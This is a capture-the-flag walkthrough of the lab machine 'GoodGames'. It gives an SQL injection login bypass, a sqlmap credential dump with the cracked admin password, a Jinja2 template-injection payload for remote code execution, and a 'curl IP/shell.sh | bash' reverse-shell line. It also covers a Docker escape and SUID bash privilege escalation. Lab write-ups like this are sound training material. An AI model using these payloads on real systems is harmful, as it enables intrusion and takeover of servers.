









# GoodGames

## Gaining Access

As usual we start with an Nmap scan:



Take note of the `goodgames.htb` domain name.

### SQL Injection

The website is about some video games stuff:


In the corner of the page, there's a login available.


This login is bypassable with the `' OR 1=1 -- -` input for the `email` parameter. When we login, we would be redirected to `internal-administration.goodgames.htb`.  This page has another login where SQL Injection does not work.



Initially, I assumed that we needed to find credentials elsewhere and looked around the website. Understanding that there was an SQL Injection weakness earlier, we probably could dump out the credentials.

I used `sqlmap` to automatically dump ot out, and got `admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec` as the output. This hash could be cracked to give the password of `superadministrator`.

### SSTI in Username

Once logged in, the page redirected us to a dashboard where we could update our user profile.


The profile updater takes the user input for full name and outputs it on the screen. I tested this with a `{{7*7}}` payload as this was running on Werkzeug, which was a Python based server (detected in Nmap scan earlier).

I was pleased to see that it worked:


With that, I proceeded to dump out the config of this server using `{{config.items()}}`.



The SSTI also granted us RCE on the server with this payload:

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```


With this, we can replace the `id` command with a `curl IP/shell.sh | bash` payload to gain a reverse shell as root on this Docker Container.



## Docker Escape

Now that we are in the container, we can scan around the network for other hosts that are alive. This can be done using this one-liner:

```bash
for i in {1..254}; do ping -c 1 172.19.0.$i | grep 'from; done 
```



172.19.0.1, but we have no users and cannot do much with this for now. We can check the `/home` directory to find the `augustus` user. Additionally, I used `mount` to check all the directories mounted into the container from the host.



Since there was no `augustus` user within the `/etc/passwd` file on the container, this must be from the host. I just tried to SSH into 172.19.0.1, and it worked.



## Privilege Escalation

Earlier, we determined using `mount` that a possible mount point was the `/home/augustus` directory. Files that were edited while I was in the container were reflected within the host as well.

When copying files into that directory, because I was a root user in the container, the owner of the files in the host was also root. So, I copied over `/bin/bash` and did `chmod +s bash` within the user directory.

This created a bash file with the SUID bit set within the host:



Getting root is trivial:


